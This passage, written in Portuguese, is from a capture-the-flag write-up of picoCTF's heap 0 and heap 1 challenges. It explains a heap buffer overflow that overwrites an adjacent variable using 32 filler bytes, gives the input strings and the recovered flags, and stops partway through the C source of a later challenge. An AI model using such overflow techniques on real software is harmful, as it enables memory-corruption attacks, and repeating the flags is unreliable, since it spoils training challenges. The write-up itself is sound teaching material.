 `pico` está no endereço `0x557a2f2bd6b0` e `bico` está no endereço `0x557a2f2bd6d0`. Isso é uma distância de 32 bytes. Se escrevermos em `input_data` com 32 bytes + _algo mais_, esse _algo mais_ será escrito na variável `safe_var`.

Você pode escrever a seguinte entrada na função `write_buffer`: \
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnoop`

Depois disso, você pode verificar usando `print_heap()` que realmente mudamos `safe_var`:

```
Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x55bc1d8756b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnoop
+-------------+----------------+
[*]   0x55bc1d8756d0  ->   noop
+-------------+----------------+
```

Podemos então apenas imprimir a flag.

flag: `picoCTF{my_first_heap_overflow_76775c7c}`

## heap 1

No heap 1, temos quase o mesmo código de heap 0. No entanto, a comparação usada para pegar a flag é diferente. Aqui está como é feita em heap 1:

```c
if (!strcmp(safe_var, "pico"))
```

A única diferença aqui é que agora queremos que `safe_var` seja `"pico"`.

Na solução anterior, alteramos `safe_var` para `noop`. Podemos usar a mesma solução, mas alterando para `"pico"`:

Entrada para a função write_buffer:
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico`

flag: `picoCTF{starting_to_get_the_hang_e9fbcea5}`

## Picker IV

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
```